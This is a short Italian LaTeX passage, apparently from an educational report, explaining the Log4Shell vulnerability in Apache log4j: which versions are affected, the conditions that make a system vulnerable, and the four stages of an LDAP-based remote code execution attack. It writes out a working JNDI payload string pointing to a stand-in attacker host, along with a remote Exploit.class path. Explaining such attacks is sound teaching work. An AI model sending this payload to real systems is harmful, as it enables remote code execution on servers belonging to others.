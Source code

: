\documentclass[a4paper, 12pt]{article}
\begin{document}
I requisiti per considerare un sistema una potenziale vittima di questo tipo di attacchi sono:
\begin{itemize}
    \item Un server con una versione di Apache log4j compresa fra la \verb!2.0-beta9! e la \verb!2.14.1!.
    
    \item Un endpoint in ascolto su qualsiasi protocollo (HTTP, TCP, \dots) che permetta all'attaccante di inviare il payload malevolo
    
    \item Un'istruzione che effettui il log tramite log4j della stringa ricevuta.
\end{itemize}


\subsection{Fasi dell'attacco}
Un'attacco che sfrutta la vulnerabilità Log4Shell con il vettore LDAP per ottenere una RCE si struttura in 4 fasi principali:

\begin{enumerate}
    \item L'attaccante attraverso una richiesta attuata con qualsiasi portocollo (HTTP, TCP, \dots) invia al server target il payload malevolo con l'URL JNDI:
    \begin{center}
        \verb!${jndi:ldap://attackerserver.com:1389/Exploit}!
    \end{center}
    all'inerno di un campo testuale che verrà successivamente loggato dalla applicazione con Log4j. 
    
    \item Il logger parserizza il payload ed effettua una richiesta tramite JNDI al server \verb!attackerserver.com!, controllato dall'attaccante, alla ricerca dell'oggetto \verb!Exploit!.
    
    \item Il sever LDAP dell'attaccante risponde fornendo il path di un file Java compilato (\verb!http://attackerserver.com/Exploit.class!) contenuto in un secondo server malevolo remoto.
    
    \item A questo punto l'applicazione vulnerabile carica il file remoto \verb!Exploit.class!, instanziando l'oggetto Java ed eseguendo il codice del suo costruttore. Tale operazione consente all'attaccante di ottenere i privilegi di esecuzione di codice remoto sull'host.
\end{enumerate}
\end{document}
